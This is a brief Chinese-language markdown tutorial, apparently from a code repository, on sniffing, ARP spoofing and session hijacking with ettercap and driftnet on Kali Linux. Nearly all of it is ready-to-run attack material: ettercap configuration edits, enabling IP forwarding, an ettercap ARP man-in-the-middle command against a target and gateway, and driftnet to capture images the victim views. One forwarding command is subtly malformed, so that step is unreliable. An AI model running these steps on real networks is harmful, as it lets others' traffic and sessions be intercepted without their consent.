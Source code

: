<h3>嗅探，arp欺骗，会话劫持</h3>
工具：`Kali Linux` [`ettercap`](http://www.91ri.org/4408.html)
第一次需要配置
```
   /etc/ettercap/etter.conf
   ec_uid = 0
   ec_gid = 0
   [linux]
   if you use iptables 这行，将下面#去掉，打开转发。
```
```
   
   /etc/NetworkManager/NetworkManager.conf 
   [ifupdown]
   managed=true
```

改完后重启NetworkManager

```
   service network-manager restart
```

```
    cat /proc/sys/net/ipv4/ip_forward
    echo 1>>/proc/sys/net/ipv4/ip_forward
```

ettercap 
```
    ettercap -T -M arp /// /// -q -i eth0
```
第一个 `///` 是嗅探目标 --IP地址 <br>
第二个 `///` 是嗅探网络 --网关地址
`eth0` 是网卡编号

driftnet 显示访问图片
```
    driftnet -i eth0
```